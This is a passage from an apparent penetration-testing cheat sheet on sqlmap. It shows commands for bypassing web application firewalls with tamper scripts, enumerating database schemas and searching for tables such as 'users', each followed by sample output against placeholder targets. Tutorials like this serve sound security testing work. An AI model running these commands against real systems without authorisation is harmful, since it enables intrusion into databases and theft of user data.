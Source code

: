 ```bash

# WAF bypass
sqlmap -u "URL" --tamper=space2comment,charencode          # Multiple tampers
```

#### Advanced Database Enumeration

##### Database Schema Analysis

**Complete Schema Enumeration:**
```bash
# Get complete database structure overview
sqlmap -u "http://www.example.com/?id=1" --schema
```

**Example Schema Output:**
```
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

**Analysis Benefits:**
- **Complete architecture overview** - all databases, tables, columns
- **Data type identification** - varchar, int, datetime, blob
- **Column count verification** - useful for manual UNION attacks
- **Target identification** - spot interesting tables/columns

##### Advanced Search Functionality

**Search Tables by Name:**
```bash
# Find all tables containing "user" in name
sqlmap -u "http://www.example.com/?id=1" --search -T user

# Expected output:
Database: testdb
[1 table]
+-----------------+
| users           |
+-----------------+

Database: master  
[1 table]
+-----------------+
| users           |
+-----------------+

```